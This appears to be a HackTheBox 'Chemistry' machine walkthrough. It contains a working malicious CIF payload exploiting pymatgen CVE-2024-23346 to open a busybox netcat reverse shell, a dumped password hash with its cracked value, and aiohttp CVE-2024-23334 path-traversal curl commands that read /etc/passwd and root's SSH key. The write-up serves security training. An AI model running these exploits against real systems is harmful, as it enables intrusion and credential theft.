


# Chemistry HackTheBox WalkThrough


Let's start the machine by performing a full `TCP` port scan.

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.129.235.159

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 17:18 CET
Nmap scan report for 10.129.235.159
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 15.11 seconds
```

The scan reveals that ports 22 and 5000 are open. Let's check the services running on these ports.

```
nmap -p 22,5000 -sVC 10.129.235.159 -oN nmap/services.nmap

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 17:23 CET
Nmap scan report for 10.129.235.159
Host is up (0.057s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 22 Nov 2024 16:23:39 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>

...etc...
```

Port 22 hosts an `ssh` server, and port 5000 appears to host an `HTTP` server.

Let's access port `5000` in a browser.



Proceed to register.


After registering, we enter a `Dashboard` that requests a `CIF` file.


Researching vulnerabilities related to these file types, we found [CVE-2024-23346](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346).

Let's copy the `POC` and modify it to perform a ping to our IP for verification.

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.90");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Meanwhile, we'll capture `ICMP` packets to see if the ping is received.

```
tcpdump -i tun0 icmp

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:58:04.441986 IP 10.129.235.159 > 10.10.14.90: ICMP echo request, id 2, seq 1, length 64
19:58:04.442015 IP 10.10.14.90 > 10.129.235.159: ICMP echo reply, id 2, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

The ping was received. Let's proceed to send a reverse shell.

After several attempts, we discovered that the reverse shell works with the payload `busybox nc 10.10.14.90 1234 -e /bin/bash`. For typical reverse shell payloads, visit https://www.revshells.com.

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.90 1234 -e /bin/bash");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Set up a listener using netcat to capture the reverse shell.

```
nc -lnvp 1234

listening on [any] 1234 ...
connect to [10.10.14.90] from (UNKNOWN) [10.129.235.159] 45512
ls
app.py
instance
static
templates
uploads
```

The reverse shell is established. Let's list the users on the machine with shell access.

```
cat /etc/passwd | grep -E 'sh$'

root:x:0:0:root:/root:/bin/bash
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
```

Now that we know the users, let's inspect the application's database to check if any system credentials are reused there.

```
sqlite3 instance/database.db

SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
structure  user
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
```

There's a user `rosa` with a hashed password. Let's check if it's in the CrackStation database.



The password resolves to `unicorniosrosados`. Let's authenticate as `rosa` using this credential.

```
su rosa
Password: unicorniosrosados
```

As rosa, we can now read the user flag.

```
cd
cat user.txt
```

We'll identify services running internally.

```
ss -tln

State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port  Process  
LISTEN   0        4096       127.0.0.53%lo:53            0.0.0.0:*              
LISTEN   0        128              0.0.0.0:22            0.0.0.0:*              
LISTEN   0        128              0.0.0.0:5000          0.0.0.0:*              
LISTEN   0        128            127.0.0.1:8080          0.0.0.0:*              
LISTEN   0        128                 [::]:22               [::]:*
```

An server is running on port `8080` (commonly used for HTTP testing). To access it locally, we'll create an SSH tunnel.

```
ssh -L 80:localhost:8080 rosa@10.129.235.159
```

Now, port `80` maps to the target's `8080`. Let's visit the service.


It’s a monitoring dashboard showing company earnings and active services.

To identify the server technology, we'll use the `whatweb` script.

```
whatweb 127.0.0.1

http://127.0.0.1 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], IP[127.0.0.1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

The server uses `aiohttp/3.9.1`, an asynchronous HTTP client/server framework for asyncio and Python.

We find [CVE-2024-23334](https://www.cve.org/CVERecord?id=CVE-2024-23334), a path traversal vulnerability allowing directory traversal via concatenated `../` to a static path.

To test the vulnerability, we'll attempt to read `/etc/passwd`.

```
curl --path-as-is http://127.0.0.1/assets/../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin

...etc...
```

It works! To escalate privileges, we'll try to read root's SSH private key.

```
curl --path-as-is http://127.0.0.1/assets/../../../../../../root/.ssh/id_rsa -o id_rsa_root
```

Set appropriate permissions for the key.

```
chmod 600 id_rsa_root
```

And connect using the obtained key.

```
ssh root@10.129.235.159 -i id_rsa_root
```

Finally, retrieve the `root` flag.

```
cd
cat root.txt
```

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.